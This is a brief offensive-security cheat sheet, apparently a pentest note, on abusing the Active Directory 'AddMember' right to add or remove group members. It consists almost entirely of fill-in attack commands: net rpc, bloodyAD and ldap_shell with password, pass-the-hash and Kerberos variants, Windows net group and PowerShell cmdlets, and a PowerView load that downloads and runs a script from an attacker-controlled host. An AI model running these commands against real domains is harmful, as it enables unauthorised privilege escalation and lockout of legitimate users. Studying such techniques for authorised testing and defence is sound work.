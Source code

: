 
# Abusing AddMember

## Addiding member

If an user have AddMember over a group can add itself inside the group, add other users inside this group, or even remove users. This can be done with multiple tools.

### From Linux (enternally recomended):

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S '<dc-ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p '<password>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With KERBEROS auth:

Ldap_shell -> `gettgt.py <domain>/<user>:<password>`

`export KRB5CCNAME=<ticket_name>`

`ldap_shell '<domain>/<user>:<password>' -dc-host <machine.domain> -k`

`add_user_to_group <user> <group>`

BloodyAD -> `gettgt.py <domain>/<user>:<password>`

`export KRB5CCNAME=<ticket_name>`

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<user>' -k --host <machine.domain> add groupMember '<group>' '<user to add in group>'`

<br>

### From Windows (internally):

`net group <group> <user> /add /domain`

Additionally can be done with Active directory module (powershell module):

`Add-ADGroupMember -Identity '<group>' -Members '<user>'`

Also is possible with powerview module:

Load module -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`Add-DomainGroupMember -Identity '<group>' -Members '<user>'`

<br>

### Articles:

https://www.hackingarticles.in/addself-active-directory-abuse/

https://bloodhound.specterops.io/resources/edges/add-self


## Removing members

`bloodyAD --host <ip> -d <domain> -u '<user>' -p '<password>' remove groupMember '<group to abandone>' '<user/group you want to remove>'`

Kerberos -> `bloodyAD -k --host <machine.domain> -d <domain> -u '<user>' -p '<password>' remove groupMember '<group to abandone>' '<user/group you want to remove>'`
